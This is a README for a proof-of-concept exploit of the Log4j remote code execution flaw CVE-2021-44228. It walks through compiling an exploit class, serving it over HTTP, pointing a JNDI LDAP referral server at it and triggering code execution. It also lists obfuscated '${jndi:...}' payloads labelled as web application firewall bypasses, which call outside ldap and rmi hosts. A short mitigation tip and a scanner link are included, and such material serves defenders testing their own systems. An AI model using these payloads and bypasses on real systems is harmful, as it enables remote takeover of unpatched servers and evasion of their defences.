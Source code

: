 # CVE-2021-44228(Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

The version of 1.x have other vulnerabilities, we recommend that you update the latest version.

[Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

### Usage:

download this project, compile the exploit code [blob/master/src/main/java/Exploit.java](Exploit.java), and start a webserver allowing downloading the compiled binary.

```
git clone https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce.git
cd CVE-2021-44228-Apache-Log4j-Rce

javac Exploit.java

# start webserver
# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888

# make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

download another project and run *LDAP server implementation returning JNDI references*
[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java)
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

build and run the activation code (simulate an log4j attack on a vulnerable java web server) [blob/master/src/main/java/log4j.java](log4j.java), and your calculator app will appear.
```
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j

# expect the following
# 1. calculator app appear
# 2. in ldapserver console,
#  Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
# 3. in webserver console,
#  127.0.0.1 - - [....] "GET /Exploit.class HTTP/1.1" 200 -


```



Tips:
> Do not rely on a current Java version to save you. Update Log4 (or remove the JNDI lookup). Disable the expansion (seems a pretty bad idea anyways).

### Bypass rc1
For example:
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

### Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
> Don't trust the web application firewall.

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```

### Simple Check Method
If you want to do black-box testing， I suggest you do passive scanning.

[BurpLog4jScan](https://github.com/tangxiaofeng7/BurpLog4j2Scan)

Have Fun!!!
![BurpLog4jScan.png](https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/img/result.png)

### Stargazers over time
[![Stargazers over time](https://starchart.cc/tangxiaofeng7/apache-log4j-poc.svg)](https://starchart.cc/tangxiaofeng7/apache-log4j-poc)
